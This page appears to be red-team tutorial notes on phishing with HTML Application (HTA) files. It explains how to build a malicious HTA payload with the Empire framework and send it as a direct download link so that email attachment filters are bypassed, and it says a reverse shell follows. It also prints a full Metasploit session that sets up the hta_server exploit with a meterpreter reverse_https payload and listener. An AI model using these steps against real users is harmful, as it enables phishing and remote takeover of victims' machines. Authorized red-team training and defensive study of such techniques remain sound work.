 # ⭕ HTA

{% embed url="http://blog.sevagas.com/?Hacking-around-HTA-files=" %}

An HTML Application (HTA) is a Microsoft Windows program whose source consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

In this example we will be assuming that attachments are not allowed in our Emails, so we will need to send a user a Direct link where we will bypass the email attachment and directly download our Binary(HTA), in the following we will use Empire Framework to create our malicious binary. This attack can also be considered an attachment but here an HTA file is being downloaded and executed.

Empire is a post-exploitation framework that includes a pure Powershell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. Empire implements the ability to run Powershell agents without the need of powershell.exe, rapidly deployable post-exploitation modules from keyloggers to evade network detection PowerShell premiered at BSides in 2015.

## <mark style="color:red;">Examples</mark>

We can create Macros, HTA files and OLE Objects for phishing (this example will contain a HTA phishing style and there will be links for reference) we can start Empire from our Linux box and use the following steps \[Remember this is the most basic attack so it will get detected].

`At the time of writing I was using Empire 2.5 there is a newer version 3.0, major updates but procedure is similar`

We execute Empire :&#x20;

![](<../../.gitbook/assets/image (18) (1) (1).png>)

We will need to setup a listener that will listen for our connection once executed on the victim

![](<../../.gitbook/assets/image (40) (1).png>)

We proceed to execute

![](<../../.gitbook/assets/image (16) (1).png>)

We will setup our listener and an OutFile to send to our victim

![](<../../.gitbook/assets/image (3).png>)

Execute again to create our payload, make sure to add the extension to it or Empire will create a file not functional for our attack.

![](<../../.gitbook/assets/image (10).png>)

Once here it's up to creativity on how to send this file I will continue with this just for DEMO purposes.

![](<../../.gitbook/assets/image (22) (1) (1).png>)

after execution, when get a reverse shell.

## <mark style="color:red;">Metasploit HTA Server</mark>

The Metasploit HTA Web Server exploit module hosts an HTA that when opened runs a payload via PowerShell.

To use, simply set the IP for the server, a custom URI, the payload you which to execute, and the IP of the listener:

```markup
root@kali:~# msfconsole -q
msf > use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set SRVHOST 192.168.216.5 
SRVHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > set URIPATH form
URIPATH => form
msf exploit(windows/misc/hta_server) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(windows/misc/hta_server) > set LHOST 192.168.216.5 
LHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > exploit 
[*] Exploit running as background job 0.

[*] Started HTTPS reverse handler on https://192.168.216...Copy
```

## <mark style="color:red;">Other Tools</mark>

{% embed url="https://www.hackingarticles.in/windows-exploitation-mshta" %}
